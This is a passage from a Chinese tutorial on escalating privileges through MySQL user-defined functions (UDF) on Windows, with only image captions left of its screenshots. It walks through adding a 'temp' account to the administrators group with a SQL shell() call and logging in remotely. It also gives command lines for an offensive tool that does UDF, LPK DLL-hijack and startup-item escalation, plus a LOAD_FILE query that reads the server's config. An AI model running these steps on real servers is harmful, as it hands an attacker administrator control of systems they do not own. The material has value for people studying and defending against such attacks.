 [![实例解析：MySQL数据库扩展接口UDF提权](http://s4.51cto.com/wyfs02/M01/8E/56/wKiom1i-DD-joRkMAAAtbI3D9VY491.jpg)](http://s4.51cto.com/wyfs02/M01/8E/56/wKiom1i-DD-joRkMAAAtbI3D9VY491.jpg)

添加temp用户

[![实例解析：MySQL数据库扩展接口UDF提权](http://s3.51cto.com/wyfs02/M02/8E/54/wKioL1i-DE2TsjzPAAAev8_z1zY368.jpg)](http://s3.51cto.com/wyfs02/M02/8E/54/wKioL1i-DE2TsjzPAAAev8_z1zY368.jpg)

将用户temp添加到管理员组

**6.提权成功**

在SQL查询中输入“select shell('cmd','net localgroup administrators')”命令查看刚才添加到用户是否真的添加成功，如图7所示，查询结果表明已经将temp用户添加到管理员组中。

[![实例解析：MySQL数据库扩展接口UDF提权](http://s4.51cto.com/wyfs02/M00/8E/56/wKiom1i-DGuRHHXzAABCTVxr46M615.jpg)](http://s4.51cto.com/wyfs02/M00/8E/56/wKiom1i-DGuRHHXzAABCTVxr46M615.jpg)

查看管理员用户

目前对于一些网站来说，一般都会提供远程终端服务，只要用户添加成功，则可以直接登录该服务器，如图8所示，输入用户名和密码，成功进入该服务器，至此通过mysql的root用户成功提权。

图8成功进入服务器

## **四、其它提权工具**

v5est0r 写了一个Mysql提权综合利用工具，详细情况请参考其代码共享网站：https://github.com/v5est0r/Python_FuckMySQL其主要功能有：

1.自动导出你的backdoor和mof文件

2.自动判断mysql版本，根据版本不同导出UDF的DLL到不同目录，UDF提权

3.导出LPK.dll文件，劫持系统目录提权

4.写启动项提权

UdF自动提权：

```python
python root.py -a 127.0.0.1 -p root -e "ver&whoami" -m udf 
```

LPK劫持提权：

```python
python root.py -a 127.0.0.1 -p root -e "ver&whoami" -m lpk 
```

启动项提权：

```python
python root.py -a 127.0.0.1 -p root -e "ver&whoami" –m st 
```

例如通过LOAD_FILE来查看Mysql配置文件my.ini，如果其中配置了skip-grant-tables，这无法进行提权，如图9所示。

```
LOAD_FILE('C:/Users/Administrator/Desktop/mysql-5.6.24-win32/my.ini'); 
```

[![实例解析：MySQL数据库扩展接口UDF提权](http://s2.51cto.com/wyfs02/M01/8E/54/wKioL1i-DH-hlvDEAABwzfevMTw562.jpg)](http://s2.51cto.com/wyfs02/M01/8E/54/wKioL1i-DH-hlvDEAABwzfevMTw562.jpg)
